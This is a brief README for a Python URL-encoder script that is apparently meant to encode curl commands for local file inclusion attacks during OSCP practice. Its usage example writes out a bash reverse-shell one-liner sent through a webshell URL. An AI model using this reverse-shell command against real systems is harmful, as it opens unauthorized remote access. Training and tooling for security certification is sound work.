

# URL-Encoder

*For educational and authorized security research purposes only.*

## Exploit Author
[@mbrenton](https://github.com/mbrenton)

## Description
Python script to URL encode a string/command. I made this to automate the process of encodng curl commands for LFI for the OSCP. Can either be used by specifying an argument, or will be prompted for user input if not specified.

## Usage
```bash
python3 url-encoder.py "curl http://root.me/webshell?cmd=bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Demo

